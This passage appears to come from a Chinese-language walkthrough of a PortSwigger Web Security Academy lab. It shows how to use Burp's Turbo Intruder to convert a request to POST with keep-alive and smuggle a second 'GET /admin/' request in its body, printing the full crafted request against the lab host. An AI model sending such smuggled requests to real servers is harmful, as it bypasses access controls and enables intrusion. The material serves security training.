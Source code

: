 [![](assets/1705301772-db9562b8119de4e59a8cba1ee79656fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184102-694f4b4e-b2c9-1.png)  
然后我们右键单击请求，选择 Extensions-> Turbo intrusor->发送到 Turbo intrusor  
[![](assets/1705301772-6219980871b81e4bf982f1256c0bce76.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184115-71146f26-b2c9-1.png)  
在 Turbo Intruder 中将请求转换为 POST 请求，更改头部信息"keep-alive"，同时将完整的"GET /admin"请求添加到主请求的正文中 (注意这里有两个换行哦)

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


GET /admin/ HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
```
